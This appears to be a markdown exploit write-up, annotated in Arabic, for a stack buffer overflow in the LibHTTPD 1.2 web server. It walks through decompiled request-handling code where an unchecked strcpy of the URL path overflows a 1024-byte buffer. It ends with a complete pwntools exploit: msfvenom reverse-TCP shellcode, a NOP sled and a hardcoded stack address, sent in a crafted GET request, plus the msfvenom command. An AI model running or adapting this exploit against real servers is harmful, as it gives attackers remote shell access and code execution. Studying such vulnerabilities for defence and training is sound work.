

____
### LibHTTPD(v1.2) exploit<br>
### Authour: 0xNullByte<br>
____

```c++
struct httpd {
    int    port;                  // المنفذ (80)
    char*  host;                 // المستضيف (127.0.0.1)
    struct httpReq request;     // هيكل الطلب 
   ....etc
};
```

```c
struct httpReq {
    int method;                  // GET/POST (1, 2)
    int contentLength;
    int authLength;
    char path[1024];            // المسـار 
    char userAgent[1024];
    char referer[1024];
    char ifModified[1024];
    char contentType[1024];
    char authUser[128];
    char authPassword[128];
};
```
```
checksec:
  CANARY    : disabled
  FORTIFY   : disabled
  NX        : disabled 
  PIE       : disabled
  RELRO     : Partial
-----
proc mapping:
  0xfffdd000 0xffffe000    0x21000        0x0  rwxp   [stack]
```
______
## main function
```c
int main(int argc,char **argv)

{
    httpd *SERVER_;                        
    timeval TIMEOUT;                      

    int READ_REQUEST;                    // 0  = successful
    int is_connect;                     //  0  > succesful
    int HOST_AND_PORT = 0;             //   0  = successful
    int ARGUMENT_;                    //   -h HOST -p PORT != -1
    
    int PORT_ = 80;                 // PORT
    char *HOST_ = (char *)0x0;     //  HOST
    
    
    /*
            HOST & PORT اخذ قيمه الـ
            E.g:
                ./libhttpd -h 127.0.0.1 -p 8081
    */
    while (ARGUMENT_ = getopt(argc,argv,"h:p:"), ARGUMENT_ != -1)
    {
        if      (ARGUMENT_ == L'h')      { HOST_ = optarg;       }
        else if (ARGUMENT_ == L'p')      { PORT_ = atoi(optarg); }
        else { 
            fwrite("usage: [-h <host IP>] [ -p <port >]\n",1,0x24,stderr);
            fprintf(stderr,"\nLibHTTPD version %s\n\n",LIBHTTPD_VERSION);
            exit(1);
            }
    }


    if (HOST_AND_PORT == 0) {

        // Server Setup 
        SERVER_ = httpdCreate(HOST_,PORT_);
        if (SERVER_ != (httpd *)0x0) {
            httpdSetAccessLog(SERVER_,stdout);
            httpdSetErrorLog(SERVER_,stdout);
            httpdAddCContent(SERVER_,"/","index.html",1,(anon_subr_int_varargs *)0x0,index_html);
            httpdAddCContent(SERVER_,"/","test2.html",0,(anon_subr_int_varargs *)0x0,test2_html);
            httpdAddCContent(SERVER_,"/","login.html",0,(anon_subr_int_varargs *)0x0,login_html);
            httpdAddCContent(SERVER_,"/","login2.html",0,(anon_subr_int_varargs *)0x0,login2_html);
            httpdAddCWildcardContent(SERVER_,"/wildcard",(anon_subr_int_varargs *)0x0,test3_html);
            httpdAddStaticContent(
                        SERVER_,"/","test1.html",0,(anon_subr_int_varargs *)0x0,
                        "<HTML><BODY>This is just a test</BODY>");
            TIMEOUT.tv_sec = 5;
            TIMEOUT.tv_usec = 0;
        do {
            do { 
                is_connect = httpdGetConnection(SERVER_,&TIMEOUT);
            } while (is_connect == 0);
            
            if (is_connect < 0) { puts("Error ... "); }

            else 
            {
                READ_REQUEST = httpdReadRequest(SERVER_);
                if (READ_REQUEST < 0) { httpdEndRequest(SERVER_); }
                else
                {
                    httpdProcessRequest(SERVER_);  // <-- VULN HERE
                    httpdEndRequest(SERVER_);
                }
            }
        } while( true );
        }
        perror("Can\'t create server");
                        /* WARNING: Subroutine does not return */
        exit(1);
    }

    
}
```
### httpdReadRequest(httpd *server)

```c++
int httpdReadRequest(httpd *server){

    char *cp2;
    char *cp;
........ 
    ..... etc
                             // راح يبلش يقرأ سطر سطر من الطلب
  while (ReadLine_Request = _httpd_readLine(server,httpdReadRequest::buf,0x2800),
        0 < ReadLine_Request) {
    count = count + 1;
    if (count == 1) {
      cp2 = httpdReadRequest::buf;
      while (ppuVar1 = __ctype_b_loc(), ((*ppuVar1)[*cp2] & 0x400) != 0) {
        cp2 = cp2 + 1;
      }
      *cp2 = '\0'
........ 
    ..... etc
        do {
            cp = cp2 + 1;
            cp2 = cp;
        } while (*cp == ' ');
        for (; (*cp2 != ' ' && (*cp2 != '\0')); cp2 = cp2 + 1) {}
        *cp2 = '\0';
        /*
            GET  anything
            POST anything

            بالمختصر يبحث عن المسافه و يرجع المؤشر
            يصبح المؤشر يؤشر على المســـار
            بمعنى:
                cp = كل مابعد الـ مسافه
            E.g:
                1- nc 127.0.0.1
                   POST anything
                        -->  cp = anything
                
                2- curl http://127.0.0.1/aaaa
                        --> cp = aaaa
        */

        strcpy((server->request).path,cp);
            /*
                ** MAIN:
                        SERVER_->request.path
                        cp == SERVER_->request.path
            */


        _httpd_sanitiseUrl((server->request).path); // يعدل على المسار 

```
### httpdProcessRequest(httpd *server)
```c++
void httpdProcessRequest(httpd *server)

{
    char *pcVar1;
    char dirName [1024];
    .....etc

    /*
        نلاحظ هنا بامكاننا وضع قيمه اكبر من 1024
       (Buffer Overflow) وبالتالي
    */
    strcpy(dirName,(server->request).path);         // vuln

    pcVar1 = rindex(dirName,0x2f);
    if (pcVar1 == (char *)0x0) { printf("Invalid request path \'%s\'\n",dirName);}
    ........ etc
```


 httpdReadRequest(httpd *server) : الخلاصه, راح يستقبل البرنامج الطلب كل مره يقرأ الطلب *سطر سطر* من خلال الدالة
 <br>
 httpdProcessRequest(httpd *server)  : وبعدها يعالج الطلب من خلال الدالة **المصابة** 


______
# exploit:
```python
from pwn import (
    remote,
    p32,
    info, success
    )

"""
    @@ badChars:
               0x00(null \0), 0x20(space), 0x0a(\n), 0x0d(\r), 0x2f(/) ,0x3f(?)
    @@ padding:
              (GET ) + "0x90"*1048 + address($EIP)
    @@ msfvenom:
             msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=9001 -f py -b "\x00\x20\x0a\x0d\x2f\x3f" -v sc
"""

# Shellcode
sc =  b""
sc += b"\xdb\xdc\xd9\x74\x24\xf4\xbb\xe8\x2b\xa2\x46\x5f"
sc += b"\x2b\xc9\xb1\x1f\x31\x5f\x1a\x03\x5f\x1a\x83\xef"
sc += b"\xfc\xe2\x1d\x41\xa8\x18\xec\x4d\x5b\x47\x5d\x31"
sc += b"\xf7\xe2\x63\x05\x91\x7b\x82\xa8\xde\xeb\x1f\x5b"
sc += b"\xa0\x13\x9f\x9a\x36\x16\x9f\xbf\xef\x9f\x7e\xd5"
sc += b"\x89\xc7\xd0\x7b\x01\x71\x31\x38\x60\x01\x34\x7f"
sc += b"\x03\x1b\x78\xf4\xc9\x73\x26\xf4\x31\x84\x7e\x9f"
sc += b"\x31\xee\x7b\xd6\xd1\xdf\x4a\x25\x95\xa5\x8c\xcf"
sc += b"\x2b\x4e\x2b\x82\x53\x28\x33\xf2\x5b\x4a\xba\x11"
sc += b"\x9a\xa1\xb0\x14\xfe\x3a\x78\xeb\xcc\xc3\xfd\xd4"
sc += b"\xb7\xd3\xa6\x5d\xa6\x4d\xea\x7a\x99\x6d\xc7\x03"
sc += b"\x5c\xb1\xaf\x01\xa0\xd3\xf7\x07\x5e\x14\x07\xb3"
sc += b"\x5f\x14\x07\xc3\x92\x94"

'''
Found 4 results, display max 4 items:
    libhttpd : 0x804f68a --> 0x74d9dcdb
        [heap]  : 0x8053942 --> 0x74d9dcdb
        [heap]  : 0x8055c5c --> 0x74d9dcdb
        [stack] : 0xffffcf4a --> 0x74d9dcdb
'''
shellAddr = p32(0xffffcf4a)

def main(host: str, port: int):
    
    PAYLOAD = b"\x90"*(1020-len(sc))
    PAYLOAD += sc
    PAYLOAD += b"\x90"*28
    
    c = remote(host, port)
    c.sendline(b"GET " + PAYLOAD + shellAddr)
    
    info("Payload length: {}".format(len(PAYLOAD)))
    success("Payload has been send successful.")


if __name__ == "__main__":
    main("127.0.0.1", 8081)
```

  

____
## definitions

```c++
    httpd * httpdCreate ( host , port )
    char * host
    int port
```
**httpdCreate( char * host , int port ):** is used to create an new web server instance. The returned handle is used for
all further interaction with the API library that pertains to the web server created by this
function. The host argument, if provided, defines a single IP Address to which the server will
bind. If NULL is provided as the argument then the server will bind to all addresses available
on the host machine. The port parameter is the numeric TCP port on which the server will
listen. The predefined constant HTTP_PORT can be used if the server is to run on the default
web server port (i.e. TCP port 80)
_____
```c++
    httpdProcessRequest ( server, request )
    httpd *server;
    httpReq *request;
```
**httpdProcessRequest ( httpd *server, httpReq *request )**: When httpdProcessRequest( ) is called, it evaluates the request, locates the requested content,
and responds to the client. If the content entry is static or file based content, the information
is sent directly to the client. If it’s dynamic content, the C function specified during the
content definition is called to generate the response.

```c++
    httpdReadRequest ( server )
    httpd *server;
```
**httpdReadRequest ( server )**: httpdReadRequest( ) reads the HTTP request from the client connections and stores any form data the is sent as
part of the request. Details of the request and the symbol table containing the request data are stored within the
server handle. If an error is encountered during the reading of the request, a negative value is returned.
## resource:
https://hughestech.com.au/downloads/libhttpd/archive/libhttpd-1.2.tar.gz (source code & manual)
